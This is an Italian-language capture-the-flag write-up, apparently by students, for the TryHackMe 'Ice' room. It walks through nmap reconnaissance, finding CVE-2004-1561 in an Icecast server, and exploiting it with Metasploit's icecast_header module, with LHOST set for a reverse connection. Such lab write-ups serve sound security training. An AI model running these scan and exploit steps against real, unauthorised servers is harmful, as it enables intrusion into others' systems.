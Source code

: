 # Report: ICE room Tryhackme

Con questa repository, si vuole reportare il processo di scan di un IP target e l'exploiting di un payload malevolo sul server vulnerabile Icecast. 

**1. CONNESSIONE ALLA VPN**

**_Scaricamento del file di configurazione VPN_**

Il file di configurazione OpenVPN (.ovpn) è stato scaricato dalla sezione Accesso VPN della piattaforma TryHackMe dopo aver effettuato l’accesso con le credenziali personali.

**_Installazione di OpenVPN:_**

È stato verificato che OpenVPN fosse installato sul sistema eseguendo il comando:
```
openvpn --version
```

La connessione è stata avviata utilizzando il file di configurazione scaricato, con il seguente comando:
```
sudo openvpn --config <percorso_del_file>.ovpn
```

Per confermare il corretto instradamento del traffico attraverso la VPN, è stato controllato l’indirizzo IP.


**2. SCAN DELLA VITTIMA**

Una volta effettuato il collegamento alla VPN, dato un IP target denominato vittima, si effettua uno scan nmap con il comando:

```
nmap -v -T5 -Pn vittima
```
dove
``` -v ``` indica maggiore verbosità, ```-T5``` indica un livello di aggressività molto alto per la scansione, ottimizzando la velocità a scapito della precisione e del rischio di rilevamento da parte di sistemi di sicurezza, e ```-Pn``` disabilita il ping.

I risultati sono i seguenti:
![6577B4B3-A5DA-4F41-951E-5801E60E53D9_1_201_a](https://github.com/user-attachments/assets/8e952963-ea9f-4ef9-9c9d-742fa5548e44)

**Servizio Microsoft Remote Desktop (MSRDP)**

Dopo aver completato la scansione, si osservano diverse porte aperte sulla macchina. Il firewall risulta disattivato, con il servizio completamente spento, lasciando così la macchina esposta. 

La porta dedicata a Microsoft Remote Desktop (MSRDP)è la numero 3389.


**Servizio sulla porta 8000**

Nmap ha rilevato un servizio HTTP in esecuzione sulla porta 8000. 
Per identificare con precisione il servizio attivo sulla porta, si effettua la seguente scansione con nmap:
```
nmap -sV -Pn -T5 vittima
```
dove
```-sV```(Service Version Detection), identifica i servizi in esecuzione sulle porte aperte e tenta di determinare la versione specifica di ciascun servizio.```-T5``` indica un livello di aggressività molto alto per la scansione, ottimizzando la velocità a scapito della precisione e del rischio di rilevamento da parte di sistemi di sicurezza, e ```-Pn``` disabilita il ping.


![image](https://github.com/user-attachments/assets/ac2707da-1689-4430-94bd-4ce90d9f9ee7)

**Icecast Streaming Media Server**  

Icecast è un server open-source per lo streaming audio e video, ideale per creare radio online, trasmettere eventi live o distribuire contenuti multimediali. Supporta formati come MP3, Ogg Vorbis/Opus, AAC e WebM, ed è compatibile con Linux, macOS e Windows. Icecast offre scalabilità, relay streaming, controllo degli accessi e strumenti per monitorare le connessioni e le statistiche degli ascoltatori. È ampiamente usato per progetti di streaming grazie alla sua flessibilità e personalizzabilità.

**Host**

Il nome host DARK-PC della macchina è stato individuato con il comando 
```
nmap -sV -A vittima
```

Dove ```-sV``` Identifica le versioni dei servizi in esecuzione e ```-A``` abilita la scansione avanzata, inclusa l’identificazione del sistema operativo, il rilevamento del nome host e i traceroute.

![EA021DC2-74A4-485A-BBAD-F859CB3A6AC9_1_201_a](https://github.com/user-attachments/assets/906fdf6a-b817-4ffa-9ee1-3048e82b8eec)

**Server**





**3. ACCESSO AL SERVER ICECAST** 

Per cercare il CVE associato tramite una scansione delle vulnerabilità:
```
nmap --script vuln vittima
```
con il seguente risultato: CVE-2004-1561.

Una volta ottenuto il CVE, visitare _CVE Details_ e cercare il CVE specifico per ottenere l’Impact Score, pari a 6.4.

<img width="570" alt="Screenshot 2024-11-21 alle 16 43 43" src="https://github.com/user-attachments/assets/ed47bff8-62e4-49cc-87b9-66c5cde726d7">


**MSFCONFOLE**

Si avvia il framework Metasploit con il seguente comando:
```
msfconsole
```

Una volta che la console è operativa, eseguire il comando:
``` 
search icecast
```
![df1e29e1-838e-4b24-bee1-2981f3f8b384](https://github.com/user-attachments/assets/a172f926-fc69-475f-a1ff-7a79e23a4b9a)

Nel risultato della ricerca, il modulo di exploit è indicato con:
```
exploit/windows/http/icecast_header
```

Si imposta il valore di LHOST (indirizzo IP locale) con l’IP di tun0 con il comando 
```
set lhost 10.10.7.72
```
per poi concludere l'esploit con il comando
```
exploit
```
<img width="580" alt="Screenshot 2024-11-21 alle 17 22 48" src="https://github.com/user-attachments/assets/3176e4f6-6071-4c2d-bbf4-a25c3b8aa204">



Nicoletta, Alessandra, Grazia <3







